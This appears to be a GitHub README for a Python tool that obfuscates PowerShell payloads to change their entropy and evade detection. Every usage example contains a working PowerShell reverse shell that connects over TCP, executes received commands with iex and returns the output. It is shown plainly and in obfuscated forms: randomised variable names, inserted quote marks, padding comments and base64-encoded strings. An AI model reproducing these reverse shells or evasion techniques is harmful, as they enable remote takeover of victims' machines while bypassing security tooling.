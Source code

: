 # auto_powershell_obfuscation - Beta

## Description

An automated tool for obfuscation of a powershell script.
This tool is for experimental purposes, I am not responsible for your actions.

## Usage

```
python3 obfuscator.py -f <YOUR_PAYLOAD> -m <MODE>
```

```powershell
PS C:\auto_powershell_obfuscation> python3 .\obfuscator.py -f .\test_payload.txt

New Payload 

$48b23f7aaadc4e96932c24c2fd6c1430 = N""ew-Object Sy''s""tem.Net.Sockets.TCPClient('127.0.0.1',8181);$be30aeef96bc427db72645b20e22b4bc = $48b23f7aaadc4e96932c24c2fd6c1430.GetStream();[byte[]]$0e2e781a1e26488f98d4d5057254669d = 0..65535|%{0};while(($143b0ba8bb9d4270963f5d48892cf60e = $be30aeef96bc427db72645b20e22b4bc.Read($0e2e781a1e26488f98d4d5057254669d, 0, $0e2e781a1e26488f98d4d5057254669d.Length)) -ne 0){;$b98b18b0b96a4336ab5c1b5f53172f6e = (New-Object -TypeName Syst""em.Text.ASCIIEncoding).GetString($0e2e781a1e26488f98d4d5057254669d,0, $143b0ba8bb9d4270963f5d48892cf60e);$82f0188570bb4842ae4d302dec137166 = (i""ex $b98b18b0b96a4336ab5c1b5f53172f6e 2>&1 | Out-String );$8a7ef545026b4a2e807bc6a667c70cbe = $82f0188570bb4842ae4d302dec137166 + 'PS ' + (pwd).Path + '> ';$2e6d40d1196a40569af7fac1184d3696 = ([text.encoding]::ASCII).GetBytes($8a7ef545026b4a2e807bc6a667c70cbe);$be30aeef96bc427db72645b20e22b4bc.Write($2e6d40d1196a40569af7fac1184d3696,0,$2e6d40d1196a40569af7fac1184d3696.Length);$be30aeef96bc427db72645b20e22b4bc.Flush()};$48b23f7aaadc4e96932c24c2fd6c1430.Close()

New payload entropy: 5.138376499232824
```

## Mode

### Var

**var** mode only changes the names of your variables according to the entropy rules.

```powershell
PS C:\auto_powershell_obfuscation> python .\obfuscator.py -m var -f .\payload.txt 

$4fe310251c7d4c8f937142076d281ce6 = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181);$45cbaabdf14f45a191c972b6307a6abb = $4fe310251c7d4c8f937142076d281ce6.GetStream();[byte[]]$95c66e4518fc49bdbe1a369ca1fa4588 = 0..65535|%{0};while(($b9285b898cbe4628aa860f2608aa2195 = $45cbaabdf14f45a191c972b6307a6abb.Read($95c66e4518fc49bdbe1a369ca1fa4588, 0, $95c66e4518fc49bdbe1a369ca1fa4588.Length)) -ne 0){;$f26c594770184cb9ad926878184d061d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($95c66e4518fc49bdbe1a369ca1fa4588,0, $b9285b898cbe4628aa860f2608aa2195);$2031bb366ddb4bd0a88e411227464baa = (iex $f26c594770184cb9ad926878184d061d 2>&1 | Out-String );$5dc4676c22014043b312ff6e180ba5ff = $2031bb366ddb4bd0a88e411227464baa + 'PS ' + (pwd).Path + '> ';$5d584a8b541a4220b78f14b13a6c9ee9 = ([text.encoding]::ASCII).GetBytes($5dc4676c22014043b312ff6e180ba5ff);$45cbaabdf14f45a191c972b6307a6abb.Write($5d584a8b541a4220b78f14b13a6c9ee9,0,$5d584a8b541a4220b78f14b13a6c9ee9.Length);$45cbaabdf14f45a191c972b6307a6abb.Flush()};$4fe310251c7d4c8f937142076d281ce6.Close()
```

### Boolean

**boolean** mode replaces simple $True or $False with equivalent boolean expressions.

`$True` => `[bool]1254`

### Quote - Beta

**quote** mode will sprinkle your code with quotation marks where they don't disturb the flow (/!\ beware /!\ this mode is not completely finished, check that it works properly before using it)

```powershell
C:\auto_powershell_obfuscation> python .\obfuscator.py -m quote -f .\payload.txt

$client = New-Object Sys""t''em.Net.Sockets.TCPClient('127.0.0.1',8181);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (N''ew-Object -TypeName Sy''st''em.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (p""wd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Gcm

**gcm** mode uses a trick that replaces cmdlets with a gcm call. This method reduces the entropy of our payload but also makes it slightly less efficient.

```powershell
PS C:\auto_powershell_obfuscation> python .\obfuscator.py -m gcm -f .\payload.txt

```

### Commentropy

**commentropy** mode creates long comments in your payload and reduces the entropy of your payload.

```powershell
PS C:\auto_powershell_obfuscation> python .\obfuscator.py -f .\payload.txt -m commentropy
$client <#*********************************#>=<#*******************************#> New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181);$stream <#*********************************#>=<#*******************************#> $client.GetStream();[byte[]]$bytes <#*********************************#>=<#*******************************#> 0..65535|%{0};while(($i <#*********************************#>=<#*******************************#> $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data <#*********************************#>=<#*******************************#> (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback <#*********************************#>=<#*******************************#> (iex $data 2>&1 | Out-String );$sendback2 <#*********************************#>=<#*******************************#> $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte <#*********************************#>=<#*******************************#> ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### str64

**str64** mode will base64 encode your strings, then decode them in your payload

```powershell
PS C:\auto_powershell_obfuscation> python .\obfuscator.py -f .\payload.txt -m str64   
$client = New-Object System.Net.Sockets.TCPClient([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('MTI3LjAuMC4x')),8181);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('UFMg')) + (pwd).Path + [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('PiA='));$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Entropy

**entropy** mode allows you to calculate the entropy of your payload.

```powershell
C:\auto_powershell_obfuscation> python .\obfuscator.py -m entropy -f .\payload.txt

5.265027259625534
```
